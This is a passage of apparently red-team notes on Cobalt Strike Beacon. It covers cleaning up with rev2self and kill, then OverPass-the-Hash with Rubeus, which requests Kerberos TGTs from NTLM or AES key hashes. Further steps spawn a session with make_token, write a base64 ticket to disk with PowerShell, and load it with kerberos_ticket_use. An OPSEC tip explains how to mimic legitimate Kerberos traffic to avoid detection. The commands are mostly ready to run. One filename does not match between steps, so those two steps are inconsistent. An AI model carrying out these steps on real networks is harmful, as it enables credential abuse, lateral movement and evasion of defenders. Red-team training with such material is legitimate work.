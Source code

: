 Once finished remember to to use `rev2self` and `kill` the spawned process.

```
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes

beacon> kill 4563
[*] Tasked beacon to kill 4563
[+] host called home, sent: 12 bytes
```

# OverPass The Hash

OverPass The Hash also known as Pass The Key allows authentication with Kerberos rather than with NTLM.

We can use NTLM hash or AES Keys to request a Kerberos TGT Ticket.

To execute that technique we will use `Rubeus`.

```
beacon> execute-assembly C:\Tools\Rubeus.exe asktgt /user:user /domain:corp.local /rc4:4ffd3eabdce2e158d923ddec72de9790 /nowrap
```

> **OPSEC Alert**: Use AES keys rather than NTLM. Rubeus has an `/opsec` argument which tells it to send the request without pre-auth, to emulate a legit kerberos traffic.

```
beacon> execute-assembly C:\Tools\Rubeus.exe asktgt /user:user /domain:CORP /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec10 /nowrap /opsec
```
> **Note**: Don't use FQDN `corp.local` to specify the domain. Use the NetBIOS `CORP`.

Once a ticket is created we can check it with `klist`.

```
beacon> run klist
```

Finally we can use `make_token` with a dummy password to spawn a session.

```
beacon> make_token CORP\user NOTREALPASSWORD
```

To pass the TGT into this logon session, we can use Beacon's `kerberos_ticket_use` command. This require that the ticket be on disk of our attacking workstation.

```powershell
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\UserTGT.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
```
```
beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\jkingTGT.kirbi 
```
## Elevated context
